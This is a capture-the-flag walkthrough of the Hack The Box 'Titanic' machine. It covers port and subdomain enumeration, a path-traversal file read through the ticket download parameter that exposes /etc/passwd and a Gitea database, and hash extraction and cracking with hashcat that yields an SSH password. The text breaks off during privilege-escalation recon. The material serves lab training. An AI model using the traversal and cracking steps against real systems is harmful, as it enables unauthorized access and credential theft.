# Titanic


|    OS    |   Linux   |
|---------:|:----------|
|Difficulty|    Easy   |
|  Points  |     20    |
| Release  |15 Feb 2025|
|    IP    |10.10.11.55|
|   Link   |[Titanic](https://app.hackthebox.com/machines/Titanic)|

## Recon

Let's start by looking for open ports with an nmap scan.

```
nmap  -A -sC -sV -p - -vv -oA titanic-nmap 10.10.11.55
```

For a break down of most of the options here please take a look at the Alert walkthrough.

and here is the report:

```
# Nmap 7.95 scan initiated Tue Mar 11 07:59:43 2025 as: /usr/lib/nmap/nmap -sV -sC -T4 -A -p - -vv -oA titanic-nmap 10.10.11.55
Increasing send delay for 10.10.11.55 from 5 to 10 due to 11 out of 14 dropped probes since last increase.
Warning: 10.10.11.55 giving up on port because retransmission cap hit (6).
adjust_timeouts2: packet supposedly had rtt of -74942 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -74942 microseconds.  Ignoring time.
Nmap scan report for titanic.htb (10.10.11.55)
Host is up, received echo-reply ttl 63 (0.16s latency).
Scanned at 2025-03-11 07:59:43 CDT for 640s
Not shown: 65468 closed tcp ports (reset)
PORT      STATE    SERVICE        REASON         VERSION
22/tcp    open     ssh            syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGZG4yHYcDPrtn7U0l+ertBhGBgjIeH9vWnZcmqH0cvmCNvdcDY/ItR3tdB4yMJp0ZTth5itUVtlJJGHRYAZ8Wg=
|   256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDT1btWpkcbHWpNEEqICTtbAcQQitzOiPOmc3ZE0A69Z
80/tcp    open     http           syn-ack ttl 63 Apache httpd 2.4.52
|_http-favicon: Unknown favicon MD5: 79E1E0A79A613646F473CFEDA9E231F1
| http-methods: 
|_  Supported Methods: HEAD OPTIONS GET
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/3.0.3 Python/3.10.12
|_http-title: Titanic - Book Your Ship Trip
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=3/11%OT=22%CT=1%CU=30762%PV=Y%DS=2%DC=T%G=Y%TM=67D0363
OS:F%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10B%TI=Z%CI=Z%TS=A)OPS(O1=M
OS:53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%
OS:O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%
OS:DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=
OS:0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF
OS:=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=
OS:%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%
OS:IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 9.791 days (since Sat Mar  1 12:10:45 2025)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 554/tcp)
HOP RTT       ADDRESS
1   232.15 ms 10.10.14.1
2   232.26 ms titanic.htb (10.10.11.55)

Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar 11 08:10:23 2025 -- 1 IP address (1 host up) scanned in 640.53 seconds
```

| Port |Description|Version|
|:----:|:---------:|:-----:|
|  22  |  OpenSSH  | 8.9p1 |
|  80  |   Apache  | 2.4.52|

Based on that output, we need to adjust our /etc/hosts



Sweet now we can move on to the ffuf report.

```
ffuf -u http://titanic.htb/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt:FUZZ -recursion -ic -c -of md -o titanic.htb-ffuf.md
```

| FUZZ | URL | Redirectlocation | Position | Status Code | Content Length | Content Words | Content Lines | Content Type | Duration | ResultFile | ScraperData | Ffufhash |
| :--- | :-- | :--------------- | :------- | :---------- | :------------- | :------------ | :------------ | :----------- | :------- | :--------- | :---------- | :------: |
| book | http://titanic.htb/book |  |  336 |     405     |       153      |       16      |        6      | text/html; charset=utf-8 | 120.428606ms |  |       | 66450150 |
| server-status | http://titanic.htb/server-status |  | 4227 | 403 |  276 |       20      |       10      | text/html; charset=iso-8859-1 | 118.69692ms |  |   |664501083 |

And now for the sub-domain enumeration.

```
ffuf -u http://titanic.htb -H Host:FUZZ.titanic.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fc 301 -c -of md -o titanic.htb-subdomain-ffuf.md
```

| FUZZ | URL | Redirectlocation | Position | Status Code | Content Length | Content Words | Content Lines | Content Type | Duration | ResultFile | ScraperData | Ffufhash |
| :--- | :-- | :--------------- | :------- | :---------- | :------------- | :------------ | :------------ | :----------- | :------- | :--------- | :---------- | :------: |
|  dev | http://dev.titanic.htb |   |  19  |     200     |      13982     |      1107     |      276      | text/html; charset=utf-8 | 5.150837676s |  |       |  123b413 |

By jove we got one, now we have to do more enumeration and to make another update to our /etc/hosts file.



```
ffuf -u http://dev.titanic.htb/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt:FUZZ -recursion -ic -c -of md -o dev.titanic.htb-ffuf.md
```

| FUZZ | URL | Redirectlocation | Position | Status Code | Content Length | Content Words | Content Lines | Content Type | Duration | ResultFile | ScraperData | Ffufhash |
| :--- | :-- | :--------------- | :------- | :---------- | :------------- | :------------ | :------------ | :----------- | :------- | :--------- | :---------- | :------: |
| administrator | http://dev.titanic.htb/administrator |  | 17 | 200 | 19997 |    1619    |       417     | text/html; charset=utf-8 | 369.445302ms |  |       |  2434311 |
|  v2  | http://dev.titanic.htb/v2 |  | 619 |     401    |       50       |       1       |        2      | application/json | 82.876511ms |     |             | 2434326b |
| developer | http://dev.titanic.htb/developer |  | 1758 | 200 |  25150   |      2139     |       506     | text/html; charset=utf-8 | 90.633011ms |  |        | 243436de |
| Administrator | http://dev.titanic.htb/Administrator |  | 3222 | 200 | 19997 |   1619   |       417     | text/html; charset=utf-8 | 208.437628ms |  |       | 24343c96 |
| nano | http://dev.titanic.htb/nano |  | 9282 |   200   |      19844     |       1619    |       417     | text/html; charset=utf-8 | 105.865781ms |  |       |243432442 |
| Developer | http://dev.titanic.htb/Developer |  | 9751 | 200 |   25151  |       2139    |       506     | text/html; charset=utf-8 | 100.392759ms |  |       |243432617 |










Well there is a lot going on here, but let's see what we can do with this.

## Initial Access with LFI

After some digging around I stumbled across the following code:



It is in the app.py for the flask-app. I took this as a opportunity to hone my burp suite skills. So, off to burp suite for a little bit. Once there, open a browser and head to titanic.htb.




Now let's turn "Intercept On":



... and see what happens when we book a cruse on the legendary titanic:





Then click the forward button.



Well now, that's the good stuff. I'm going to send this to the repeater function.





Then forward the request on and see what comes back.







While interesting, this file is not very fun. Let's see if this works how we think it does. According to the flask-app, tickets are generated in the tickets folder. So, if we go one folder up we should be able to grab the app.py file. So let's give that a try. We'll use burp suite's repeater function for our next move, don't forget to turn off intercept.







Success!!! Sweet, let's try grabbing a more meaningful file, like the /etc/passwd file. We have to do a little guess work here, but there is a chance that the '/' directory should be about two or three steps up. Let's see if we can find it.





Oh yeah, that's the good stuff.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

Looks like we only have two users to target:

- root
- developer

Also, we are starting to build a basic file structure for our target box. Reviewing our notes, it looks like there should be a sql database for us to target.




While there maybe some useful information here, at our current junction, not so much.



Okay, that gives us a folder path to look for. Back to burp suite.



Believe it or not, the http status code of 500 tells us that we are on the right track. The folder exists but the script failed because it is not designed to download folders.



Win again, I have to admit, I got a little stuck at this point. So I looked up a walk though, [HTB Titanic Writeup | Step-by-Step Walkthrough | InfoSec Write-ups](https://infosecwriteups.com/hackthebox-titanic-writeup-5f549dd90f38?gi=5bca4b861560). All good though, we are all here to learn. We were so close, according to the walk through, the database is a little bit further located at gitea/gitea.db.



And so it is. To download it, head back to your browser of choice and put in our newly discovered url.

```
http://titanic.htb/download?ticket=../../../home/developer/gitea/data/gitea/gitea.db
```





I am not a fan of the filename that the database got saved as, so I'm going to change it to something a little easier to work with.

```
mv ./_.._.._home_developer_gitea_data_gitea_gitea.db gitea.db
```

While I was able to dump the database myself, and I was able to find the passwords, I found myself lost again. Going back to the walk through, gitea saves the passwords as salted sh256 hashes. There is a tool to unsalt them and decrypt them using hashcat. 

### Step 1. Extract the information in the correct format of hash|pass

```
sqlite3 gitea.db 'SELECT lower_name, passwd, salt FROM user;'>users1.txt
```



Nice. We'll want to save this format for later use. It will be helpful in figuring out which password belongs to who. For now we are going to remove the usernames from the hashes.

```
cat users1.txt|awk -F '|' '{print$2"|"$3}'>users1-preped.txt
```



### Step 2. Download the tool and use it

The tool comes from the [hashcat github](https://github.com/unix-ninja/hashcat/blob/master/tools/gitea2hashcat.py) repo. So let's grab that.



Let's download this to the same directory where the database is to keep things easy. Then we can push our hash|pass file through it.

```
cat users1-preped.txt|python3 Tools/gitea2hashcat.py>users1-desalted.txt
```



Okay, making progress.

### Step 3. hashcat

In the output file it says to run the file through hashcat using mode 10900. Fist I'm going to remove the unneeded text from the desalted file.

```
cat users1-desalted.txt|tail -3>users1-desalted1.txt
```



Now for hashcat...

```
hashcat -m 10900 users1-desalted1.txt /usr/share/wordlists/rockyou.txt
```



Working backwards, the database had three users in it:
- administrator
- developer
- username

Lining the hashes up looks kind of like:

|     User    |User1.txt hash|users1-desalted.txt hash|password|
|:-----------:|:------------:|:----------------------:|:------:|
|administrator|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136\|2d149e5fbd1b20cf31db3e3c6a28fc9b|LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=| |
|  developer  |e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56\|8bf3e3452b78544f8bee9400d6936d34|i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=|25282528|
|   username  |f705318c9983a02e5bc35b9ad752318022e1447a7429c5b7eb7c1fc0fc7300e769f6e21fe1ab23c61c52212ed595334012dd\|9b4ed59164c98d94917baa2916b54964|m07VkWTJjZSRe6opFrVJZA==:9wUxjJmDoC5bw1ua11IxgCLhRHp0KcW363wfwPxzAOdp9uIf4asjxhxSIS7VlTNAEt0=|password|

I'd say two out of three is not bad. Going back to the etc/passwd file it mentions that there is a user named developer with a login. So we can try to ssh in.

```
ssh developer@titanic.htb
```




## Getting the user flag

Another not very fun user flag.

```
cat users.txt
```



Although, proving that my way is not always the only way, it is also possible to grab the use flag way back [here](#initial-access-with-lfi), like so:



## Getting the root flag

I usually like to kick things off with with some [linpeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) from the peass-ng pack. That produces a lot of output thought, so I'll let you run that for yourself.  After it completes I will take quite a bit of time going thourgh the output, in this case I found a diretory under /opt called scripts, so I'll start there. The full path is /opt/scripts/. Let's go and see what's there...

```
cd /opt/scripts/
```


Once there, looks like a have a script called identify_images.sh, opening that up looks like a script that does a few things:

```
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```
The first line is easy, change directory to /opt/app/static/assets/images.

The second line is used to shrink metadata.log to a size of zero.

The third line has a little bit going on. First it's going to look in the /opt/app/static/assets/images folder for any file with a name that ends with '.jpg'. Anything that is found will be passwd to magick command which will determine what the metadata of of the file contains and finally push what it reads to the metadata.log file.


